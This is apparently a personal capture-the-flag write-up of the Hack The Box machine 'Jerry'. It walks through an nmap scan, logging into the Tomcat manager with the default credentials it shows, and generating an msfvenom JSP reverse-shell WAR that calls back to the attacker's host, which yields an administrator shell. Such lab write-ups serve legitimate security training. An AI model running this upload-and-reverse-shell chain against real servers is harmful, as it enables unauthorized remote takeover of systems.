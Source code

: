 
# Machine Info




# Walkthrough

1. Nmap scan result in the found of Tomcat service Website running in 8080 port.
	- ┌─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $cat serviceScan.nmap 
		# Nmap 7.94SVN scan initiated Sat Jan 11 00:40:06 2025 as: nmap -sC -sV -p- -Pn --min-rate 5000 -oA serviceScan 10.10.10.95
		Nmap scan report for 10.10.10.95 (10.10.10.95)
		Host is up (0.22s latency).
		Not shown: 65534 filtered tcp ports (no-response)
		PORT     STATE SERVICE VERSION
		8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
		|_http-title: Apache Tomcat/7.0.88
		|_http-favicon: Apache Tomcat
		|_http-server-header: Apache-Coyote/1.1
		
		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		# Nmap done at Sat Jan 11 00:41:00 2025 -- 1 IP address (1 host up) scanned in 53.90 seconds


2. Home page of the website:
	1. ![[Pasted image 20250221153014.png]]
	
3. When visiting the manager app, It ask for credential. Cancelling the login revel the credential:
	1. Username -> tomcat
	2. Password -> s3cret
	3. ![](../Pasted%20image%2020250225221742.png)

4. Landing page after loggin in:
	   ![[Pasted image 20250221171429.png]]

5. The page seem to be allowing the user to upload .war file. 
	1. ![[Pasted image 20250221171547.png]]

6. Then i generate a msfvenom .war file paylaod for reverse shell. and named it payload.war.
	- ┌─[✗]─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=8888 -f war -o payload.war
		Payload size: 1096 bytes
		Final size of war file: 1096 bytes
		Saved as: payload.war

7. The uploaded file seem to be appear in the main page table, where we can click and run.
	1. ![[Pasted image 20250221171827.png]]

8. Before executing the payload, I had already started my netcat server listening in the port 8888. And we got the connection after executing the payload. 
	![[Pasted image 20250221165413.png]]

9. The shell we got seem to have administrator authority (High authority).
	![[Pasted image 20250221165700.png]]

10. Then we found the flag in the flag directory in desktop of Administrator user.  
	

	![[Pasted image 20250221171038.png]]
	


